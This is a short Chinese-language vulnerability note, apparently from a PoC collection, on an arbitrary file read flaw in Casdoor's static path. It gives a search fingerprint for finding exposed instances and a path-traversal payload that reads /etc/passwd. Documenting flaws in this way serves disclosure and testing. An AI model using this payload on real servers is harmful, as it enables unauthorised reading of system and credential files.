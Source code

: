 # 

# Casbin casdoor static 任意文件读取漏洞

## 漏洞描述

Casdoor 是 Casbin 开源社区推出的基于 OAuth 2.0 / OIDC 的中心化的单点登录（SSO）身份验证平台。

Casdoor static 存在任意文件读取漏洞，攻击者通过发送特殊的请求包可以获取服务器中的敏感文件。

## 漏洞影响

```
Casdoor
```

## 网络测绘

```
title="Casdoor"
```

## 漏洞复现

登陆页面

![image-20231115094403952](images/image-20231115094403952.png)

或者

![image-20231115094555640](images/image-20231115094555640.png)

poc

```
/static/../../../../../../../../../../../etc/passwd
```

![image-20231115094237497](images/image-20231115094237497.png)
